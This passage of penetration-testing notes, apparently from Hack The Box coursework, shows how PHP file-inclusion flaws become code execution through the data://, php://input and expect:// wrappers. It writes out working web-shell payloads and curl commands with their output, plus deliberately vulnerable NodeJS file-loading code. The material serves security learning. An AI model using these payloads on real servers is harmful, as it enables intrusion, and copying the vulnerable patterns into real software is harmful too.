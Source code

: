 After encoding the php code, we can execute it as follows. Add the base64 encoded code after the data wrapper 'data://text/plain;base64,' and the end add '&cmd="Your_Command" to execute code.'
```
http://example.com/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```
##### Input PHP wrapper
For input wrapper, we pass our input to the input wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the input wrapper also depends on the allow_url_include setting.

we can send a POST request to the vulnerable URL and add our web shell as POST data. To execute a command, we would pass it as a GET parameter.
```
MetricCode@htb[/htb]$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://example.com/index.php?language=php://input&cmd=id" | grep uid

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
The vulnerable function to also accept GET request (i.e. use $_REQUEST). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. <\?php system('id')?>)
##### Except PHP Wrapper
It allows us to directly run commands through URL streams.
However, expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server, though some web apps rely on it for their core functionality, so we may find it in specific cases. We can determine whether it is installed on the back-end server just like we did with allow_url_include earlier, but we'd grep for expect instead, and if it is installed and enabled we'd get the following:
```
MetricCode@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```
We can get RCE by ;
```
MetricCode@htb[/htb]$ curl -s "http://example.com/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### NodeJS
Just as the case with PHP, NodeJS web servers may also load content based on an HTTP parameters. The following is a basic example of how a GET parameter language is used to control what data is written to a page:
```
Code: javascript
if(req.query.language) {
    fs.readFile(path.join(__dirname, req.query.language), function (err, data) {
        res.write(data);
    });
}
```
As we can see, whatever parameter passed from the URL gets used by the readfile function, which then writes the file content in the HTTP response. Another example is the render() function in the Express.js framework. The following example shows uses the language parameter to determine which directory it should pull the about.html page from:
```
Code: js
app.get("/about/:language", function(req, res) {
    res.render(`/${req.params.language}/about.html`);
});
```
Unlike our earlier examples where GET parameters were specified after a (?) character in the URL, the above example takes the parameter from the URL path (e.g. /about/en or /about/es). As the parameter is directly used within the render() function to specify the rendered file, we can change the URL to show a different file instead.
